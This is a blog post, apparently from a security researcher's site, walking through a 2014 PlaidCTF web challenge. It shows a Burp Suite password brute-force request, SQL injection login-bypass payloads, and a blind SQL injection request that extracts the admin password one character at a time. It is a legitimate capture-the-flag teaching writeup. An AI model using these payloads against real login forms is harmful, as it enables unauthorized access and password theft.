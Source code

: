 ```yaml
---
id: 1873
title: 'PlaidCTF writeup for Web-100 &#8211; PolygonShifter (blind sql injection)'
date: '2014-04-17T12:55:06-05:00'
author: ron
layout: post
guid: 'https://blog.skullsecurity.org/?p=1873'
permalink: /2014/plaidctf-writeup-for-web-100-blind-sql-injection
categories:
    - Hacking
    - 'PlaidCTF 2014'
    - Tools
---
```


Hey folks,

I know in my last blog I promised to do a couple exploit ones instead of doing boring Web stuff. But, this level was really easy and I still wanted to do a writeup, so you're just going to have to wait a little while longer for my 'kappa' writeup!
<!--more-->
This 100-point Web challenge, called PolygonShifter, basically added some anti-bot defenses to a Web site by obfuscating the username/password field names, as well as the action for the POST request. When you visited the page, you'd see something like this:

<pre>
<span class="htmlTag">&lt;</span><span class="htmlTagName">form</span><span class="htmlTag"> </span><span class="htmlArg">action</span><span class="htmlTag">=</span><span class="Constant">&quot;/S1tl90gme2GJ67epbZz9&quot;</span><span class="htmlTag"> </span><span class="htmlArg">method</span><span class="htmlTag">=</span><span class="Constant">&quot;POST&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Username<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;text&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;lK1TFqrcp3fvIRSg8V7T&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;L1UIVbxzFD8wUUo8SaJH&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">label</span><span class="htmlTag"> </span><span class="htmlArg">for</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">style</span><span class="htmlTag">=</span><span class="Constant">&quot;text-align:left;&quot;</span><span class="htmlTag">&gt;</span>Password<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">label</span><span class="htmlEndTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;password&quot;</span><span class="htmlTag"> </span><span class="htmlArg">id</span><span class="htmlTag">=</span><span class="Constant">&quot;LkW7Ye9ItPb8CGeKZrMU&quot;</span><span class="htmlTag"> </span><span class="htmlArg">name</span><span class="htmlTag">=</span><span class="Constant">&quot;LmmURBa3S5NRYBwzHXhC&quot;</span><span class="htmlTag">&gt;</span>
    <span class="htmlTag">&lt;</span><span class="htmlTagName">input</span><span class="htmlTag"> </span><span class="htmlArg">class</span><span class="htmlTag">=</span><span class="Constant">&quot;primary large&quot;</span><span class="htmlTag"> </span><span class="htmlArg">type</span><span class="htmlTag">=</span><span class="Constant">&quot;submit&quot;</span><span class="htmlTag"> </span><span class="htmlArg">value</span><span class="htmlTag">=</span><span class="Constant">&quot;Login&quot;</span><span class="htmlTag">&gt;</span>
<span class="htmlEndTag">&lt;/</span><span class="htmlTagName">form</span><span class="htmlEndTag">&gt;</span>
</pre>

I immediately installed the 'httparty' gem and started writing a solution in ruby, when I had an inspiration. I tried using the same action multiple times, and it worked! It would only work for a few minutes before I had to refresh and get a new one. But, that was enough!

I decided&mdash;incorrectly&mdash;that this was likely a brute-force level, so I fired up Burp Suite, chose 'Intruder' mode, and set it to something like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 56</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=§password§</span>
</pre>

Then I used Burp Suite's built-in list of passwords to attack the account.

I let the attack run through the ~1000 or so passwords, then added a filter for 'Hello, ' (in order to find good attempts). There weren't any. Damnit, now I need a new plan!

...then, on a random inspiration, I tried an invert search for 'Wrong password'. And there was one entry: a password containing a single quote returned "An error occurred" instead of "Wrong password". *facepalm*, it's sql injection!

So, I tried logging in with:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or 1=1-- </li>
</ul>

And immediately, I'm logged in... as 'test'. Derp!

So I changed my credentials to:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or username='admin'-- </li>
</ul>

(Don't forget to put a space after the '--' if you're following along!)

And boom! I'm logged in as 'admin'! Finished, right? WRONG! The banner says: "Hello, admin!! My password is the flag!"

Now, it sounds like I need to recover admin's password. CHALLENGE. ACCEPTED.

I threw together a quick Burp Suite Intruder attack that looked like:

<pre>
<span class="Identifier">POST /im6Kh1pOKr7Y9bbDHiew HTTP/1.0</span>
<span class="Identifier">Host</span><span class="Normal">:</span><span class="Constant"> 54.204.80.192</span>
<span class="Identifier">User-Agent</span><span class="Normal">:</span><span class="Constant"> Mozilla/5.0 (X11; Linux x86_64; rv</span><span class="Normal">:</span><span class="Constant">17</span>.0) Gecko/20100101 Firefox/17.0
<span class="Identifier">Accept</span><span class="Normal">:</span><span class="Constant"> text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8</span>
<span class="Identifier">Accept-Language</span><span class="Normal">:</span><span class="Constant"> en-US,en;q=0.5</span>
<span class="Identifier">Accept-Encoding</span><span class="Normal">:</span><span class="Constant"> gzip, deflate</span>
<span class="Identifier">DNT</span><span class="Normal">:</span><span class="Constant"> 1</span>
<span class="Identifier">Proxy-Connection</span><span class="Normal">:</span><span class="Constant"> keep-alive</span>
<span class="Identifier">Referer</span><span class="Normal">:</span><span class="Constant"> http</span><span class="Normal">:</span>//54.204.80.192/example
<span class="Identifier">Cookie</span><span class="Normal">:</span><span class="Constant"> resolution=1920; session=.eJxdzc0OwTAAAOBXkZ4dSkJC4kDaSYSOTruuF2nXonSz2GR-4t2JC_YAX74HUGnlTvlm66w3YPgALQ2GQMWwG3V31xQP5unByDCeOYr3hRTpCDzboFBlWZ_OpsFoRpSZBlLGsI4wqw3yjvEAccz-mfuapEMEQZNQI3-LkS8iQW5RzvtruPiYS2nPucpso7JHWoXBqrPwFGvEe5r7jN2JVIj9s5_KwCpZ-TEMp2RP2ZXqO1laQZ0Wyds8Xxv7V7E.Bix5uQ.vhQP7hI43dgozvUAVyBF7MM6C9E</span>
<span class="Identifier">Content-Type</span><span class="Normal">:</span><span class="Constant"> application/x-www-form-urlencoded</span>
<span class="Identifier">Content-Length</span><span class="Normal">:</span><span class="Constant"> 53</span>

<span class="Identifier">zDm8T52TDl5ymYfS3Yh5=admin&amp;FcZtaYem0HE0t9bQQCTE=%27+or+%28username%3D%27admin%27+and+binary+substring%28password%2C+§1§%2C+1%29+%3D+%27§a§%27%29--+</span>
</pre>

To clean it up, it's basically:

<ul>
  <li>Username :: admin</li>
  <li>Password :: ' or (username='admin' and binary substring(password, $1, 1) = '$2')</li>
</ul>

(Where $1 and $2 are Burp Suite's marked fields)

Then I set Burp Suite to use a 'Cluster Bomb' style of attack, which means that each field has its own set of values that are tried. Then I set the two variables to:

<ul>
  <li>$1 :: numeric, 1 - 45 (I had to keep expanding this since the password was 30+ characters long!)</li>
  <li>$2 :: custom set, a-z A-Z 0-9 + symbols</li>
</ul>

Then I let it run, filtered for 'Hello', and got the following results:

<img src='https://blogdata.skullsecurity.org/polygonshifter-solution.png'>

Boom! Arrange those properly and you have your password. :)

